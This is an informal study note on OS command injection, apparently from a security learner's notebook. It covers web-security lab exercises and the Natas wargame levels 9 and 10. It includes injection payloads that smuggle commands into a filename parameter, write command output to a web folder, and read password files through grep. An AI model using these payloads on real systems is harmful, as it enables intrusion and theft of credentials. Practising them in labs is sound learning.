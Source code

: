 # OS Injection

## We Know

Using `; & &&` with URL encoding

`${IFS}` to bypass whitespace filter and curly brace expansion

### Lab 2

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

`||` is conditional if right but why use it at the end of the command as well?

Well `||sleep 10;` works but we get a 500 Server Error

`|sleep 10|` too

`;sleep 10` doesn't work so `|` is the only operator that breaks the flow

`&` and `&&` doesn't work at all so ggs

### Lab 3

`||whoami>/var/www/images/hi.txt||`

`/image?filename=hi.txt`

The writable folder, we found cus of these boys - how else would we know?

<div align="left"><figure><img src="../../.gitbook/assets/image (3) (1).png" alt="" width="563"><figcaption></figcaption></figure></div>

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

## Natas

### 9 & 10

<div align="left"><figure><img src="../../.gitbook/assets/image (83).png" alt="" width="417"><figcaption></figcaption></figure></div>

In prev challenge we executed multiple commands in the same line using ;

`; cat /etc/natas_webpass/natas10`

but as we can see the ; is blocked here so what do.

the other standard ways of exec multiple commands include &&, || and those are blocked too.

```
.* /etc/natas_webpass/natas11
```

so `grep -i .* /etc/natas_webpass/natas11 dictionary.txt` is the final output

I've never seen this before nor does this show up in any forums so how legit is this?

This .\* is specific for grep to read the contents of a file.
